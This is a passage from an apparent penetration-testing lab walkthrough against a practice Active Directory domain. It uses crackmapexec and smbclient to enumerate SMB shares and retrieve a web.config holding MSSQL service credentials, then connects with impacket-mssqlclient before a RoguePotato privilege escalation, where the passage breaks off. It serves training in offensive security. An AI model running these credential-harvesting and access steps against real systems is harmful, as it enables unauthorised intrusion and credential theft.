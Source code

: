 
### Finding MSSQL Credentials in Network Shares

We're now tasked with locating a config file containing a connection string to a MSSQL server. Using the new credentials, we scan SMB shares:

```bash
crackmapexec smb 172.16.7.3 -u <another_domain_user> -p <probable_password> --shares
```

![](screenshots/8.png)

We discover access to a non-standard share: `Department Shares`. Using the **Spider Plus** module and grab a created report file:

```bash
crackmapexec smb 172.16.7.3 -u <another_domain_user> -p <probable_password> -M spider_plus --share 'Department Shares'
```

We locate `web.config`:

```bash
cat 172.16.7.3.json | grep conf
##=> "IT/Private/Development/web.config"
```

We then connect and retrieve the file:

```bash
smbclient \\172.16.7.3\\'Department Shares' -U INLANEFREIGHT/<another_domain_user>

smb: \> get IT/Private/Development/web.config
```

The file contains credentials for a **MSSQL service account**.


### Privilege Escalation on SQL01 via RoguePotato

We can identify SQL01 as `172.16.7.60` as the last unknown host and connect:

```bash
impacket-mssqlclient <mssql_user>:<password>@172.16.7.60
```

We enable command execution:
